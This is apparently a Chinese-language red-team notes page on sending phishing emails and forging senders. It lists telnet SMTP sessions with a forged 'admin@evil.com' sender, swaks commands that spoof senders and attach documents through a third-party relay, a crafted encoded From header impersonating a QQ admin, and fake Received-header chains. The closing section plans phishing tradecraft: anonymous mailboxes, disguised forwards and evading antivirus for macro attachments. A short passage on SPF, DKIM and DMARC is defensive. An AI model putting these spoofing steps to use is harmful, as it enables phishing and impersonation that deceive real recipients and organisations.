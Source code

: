 ## 钓鱼邮件

### SMTP协议--在cmd下利用命令行发送邮件

	telnet smtp.163.com 25
	helo 163.com
	base64_encode_username
	base64_encode_authcode
	mail from:<username@163.com>
	rcpt to:<username@sth.com>
	data
	from:admin@evil.com
	to:username@sth.com
	subject:meeting
	
	meeting
	.

如果邮件退回：550 User has no permission

登陆163邮箱设置授权码:

![](images/2.png)

如果邮件退回：535 Error: authentication failed

密码需要输入base64编码的授权码。

登陆成功：

![](images/1.png)

[SMTP协议--在cmd下利用命令行发送邮件](http://blog.sina.com.cn/s/blog_6dbfc2a901014yqx.html)

## SPF

SPF，全称为 Sender Policy Framework，是一种以IP地址认证电子邮件发件人身份的技术。邮件接收方首先会去检查域名的SPF记录，来确定发件人的IP地址是否被包含在SPF记录里面，如果在，就认为是一封正确的邮件，否则会认为是一封伪造的邮件并进行退回。即使配置了SPF，在特定的情况下，依然可以完美伪造邮件发件人。

![](images/14.jpg)

检查域名是否配置了SPF:

	nslookup -type=txt qq.com

![](images/8.png)

域名SPF配置方法示例：

![](images/9.png)

如下按照了qq邮箱的配置，设置了spf。

![](images/15.jpg)

在网易邮箱还可以伪造发件人:

![](images/16.jpg)

因此配置了SPF不一定可以杜绝SPF伪造攻击。

## swaks 工具使用

swaks 是kali自带工具。

```man swaks```  命令查看帮助。

swaks 发送钓鱼邮件：

	swaks --body "meeting time 2 o'clock now" --header "不错" -t target_user@sth.com -f fake_user@sth.com

邮件被退回：

	550 Sender domain is a local domain.
	出错原因：发信人域名已经注册腾讯企业邮箱，禁止相同域名通过外部服务器发送邮件至腾讯企业邮箱服务器。
	
	改善建议：如果您是此域名的管理员，建议使用子域名（如：mail.domain.com）作为邮件发件人域名。

应该使用smtp代理服务器发送邮件。

### smtp2go 网站注册smtp服务器

注册smtp 服务器[smtp2go](https://www.smtp2go.com)

![](images/4.png)

![](images/5.png)

swaks 使用smtp代理服务器，发送钓鱼邮件：

	swaks --body "meeting time 2 o'clock now" --header "不错" -t target_user@sth.com -f fake_user@sth.com --server  mail.smtp2go.com -p 2525 -au sswfef -ap NTlkXXXXXXXXXXAw

往foxmail发送邮件中文出乱码。

![](images/6.jpg)

(暂未解决，与邮箱有关，163邮箱好像就不会出现乱码。)

smtp2go 数据包中的邮件Received头：

![](images/3.jpg)

**邮件导出为```test Mon, 08 Mar 2021 05_00_29 -0500.eml```** (关键信息已替换)。

**第二天就收到smtp2go官网的邮件(只用了1d...，且之后企业邮箱域名可能会被拉黑)**：

账户疑似外发钓鱼邮件，功能被限制：

![](images/7.jpg)

往网易邮箱发带附件的邮件：

	swaks --body "Hi all, read it seriously" --header "Subject:快速review" -t username@yeah.net -f fakeuser@sth.com --attach ./NTA.doc

仿真度超高(不显示代发)：

![](images/11.jpg)

但如果内容和标题写的太随意，会被认为是垃圾邮件，被阻止发邮件15min。

往QQ邮箱发邮件：

步骤： 先使用邮箱发送一个正常的邮件，邮件标题为想要给目标发送的钓鱼标题，邮件内容及附件为钓鱼附件，导出这个邮件为 ```.eml``` 格式。

伪造```.eml```文件中的From字段：

	From:=?gb2312?B?udzA7dSxIDxhZG1pbkBxcS5jb20+0aGhoaGhoaGhoaGhoaGhoaGhoaGhoQ==?==?gb2312?B?oaGhoaGhoaGhoaGhoaGhoaGhoaGhoaGhoaGhoaGhoaGhoaGhoaGhoaGh?==?gb2312?B?oaGhoaGhoaGhoaGhoaGhoaGhoaGhoaGhoaGhoaGhoaGhoaGhoaGhoaGh?==?gb2312?B?oaGhoaGhoaGhoaGhoaGhoaGhoaGhoaGhoaGhoaGhoaGhoaGhoaGhoaGh?==?gb2312?B?oaGhoaGhoaGhoaGhoaGhoaGhoaGhoaGhoaGhoaGhoaGhoaGhoaGhoaGh?==?gb2312?B?oaGhoaGhoaGhoaGhoaGhoaGhoaGhoSAgICAgICAgICAgICAgICAgIKGkoaQ=?==?gb2312?B?oaQgICAgICAgICAgICAgICAgIKGhICAgICAgIKGkoaShpA==?=  <fakeuser@fakedomain.com>

使用命令发邮件：

	swaks -t targetuser@qq.com -f fakeuser@fakedomain.com  --data export.eml

邮件默认发件人变成 admin@qq.com，邮件被投递到垃圾箱，邮件的发件人也可以看出被做了手脚，因此实用性差。发件人被固定，钓鱼能力极差。待有时间重新构造```.eml```进行FUZZ。

![](images/12.jpg)

## 伪造发件人原理：

from 字段可以伪造。

"Received:"头提供了详细的消息传输历史记录，因此即使在其他邮件头是被伪造的情况下也可能根 据"Received:"头得到某些关于该信件原始出处和传输过程的结论。

这样的信息对于对于验证和追踪伪造信件是非常有用的。(因此，垃圾邮件发送者往往避免使用那些记录发送者地址的邮件服务器进行垃圾邮件转发。**有时候它们可以找到不记录发送者服务器，但是现在网络上这样的服务器已经很少了**)

伪造者可能创建如下所示的看似真实的"Received:"头列表：
	
	Received: from galangal.org ([202.99.11.120]) by mail.alpha.com.cn (8.8.5)...
	Received: from lemongrass.org by galangal.org (8.7.3/8.5.1)...
	Received: from graprao.com by lemongrass.org (8.6.4)...

如果伪造者这里填写了lemongrass.org 和graprao.com 的真实IP地址，则这样的伪造伪造仍然非常难以检测。但是第一个"Received:"头中的域名和IP的不匹配仍然揭露了消息是伪造的，并且该邮件是有 网络中地址为 202.99.11.120 的服务器注入到网络中。

是邮件协议历史遗漏问题。

[邮件那些事4—浅析伪造发信人的原理与识别](https://blog.csdn.net/ccc7560673/article/details/49306699)


## 防范措施

如果碰到严苛的 ESP ( mail_from 和 from 必须完全一致才不显示代发)也是可以绕过，同时设置成恶意的邮箱发送者。

为了使得域名不会被伪造，需要为域名正确配置[SPF](https://blog.51cto.com/10602188/1882947)、[DKIM](https://www.zoho.com.cn/mail/help/adminconsole/dkim-configuration.html)、[DMARC](https://support.google.com/a/answer/2466563?hl=zh-Hans)。只配置SPF是不行的。

## 参考资料

[邮件伪造之SPF绕过的5种思路](https://cloud.tencent.com/developer/article/1631003)

[**Sth. about email spoofing & 搭建SMTP Server**](https://evi1cg.me/archives/Email_spoofing.html)

[**Cobalt Strike Spear Phish**](https://evi1cg.me/archives/spear_phish.html)



## 后记

杀软的三种查杀方式

1.静态查杀 2.云查杀 3.动态查杀。

邮件服务器为了可用性和隐私性一般只有静态查杀。

### 钓鱼思路

eg:163转发改转发头为企业邮箱迷惑受害者；(注意应使用匿名邮箱)

![](images/10.jpg)

接下来应重点关注 word，office宏在windows下作为邮件附件的免杀问题。